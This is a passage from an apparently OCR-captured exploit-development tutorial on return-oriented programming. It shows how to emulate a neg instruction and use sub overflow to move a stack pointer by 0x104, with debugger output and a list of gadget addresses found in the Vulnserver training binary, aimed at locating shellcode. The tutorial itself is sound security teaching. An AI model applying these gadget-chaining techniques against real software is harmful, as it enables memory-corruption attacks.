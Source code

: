 After this, an `add r32, r32` gadget can be employed to augment the value of the destination operand by `0x104`.

#### Emulating the `neg` Behavior

In scenarios where a handy `neg` instruction-containing gadget is missing, it's still possible to simulate its operation using other instructions:

```text
ECX = 0xfffffefc
EAX = 0x00

sub eax, ecx
// EAX is now 0x104
```

To null out `EAX`, several alternatives exist:

```text
xor eax, eax
sub eax, eax
```

#### Intricacies of the `sub` Instruction

Using a `sub` instruction to increment might sound counterintuitive, but thanks to arithmetic overflow, it’s possible.

```text
0:004> r @esp
esp=0115fa08

0:004> r @eax
eax=fffffefc

> sub esp, eax

0:004> r @esp
esp=0115fb0c

// By calculating the difference from the original value, we see an increment of 0x104 bytes.
0:004> ? esp - 0115fa08 
Evaluate expression: 260 = 00000104
```

Returning back to `Vulnserver`, we were fortunate enough to uncover several gadgets that could help us increment the preserved stack address. This increment by the placeholder value `0x104` would guide us to the probable location of our shellcode:

```text
0x625014d5: pop eax ; ret 
0x625016ca: neg eax ; ret
0x62501e3a: mov esi, eax ; call edi 
0x6250221c: add esi, ebx ; ret 
0x62502412: mov eax, esi ; pop esi ; pop edi ; ret 
```
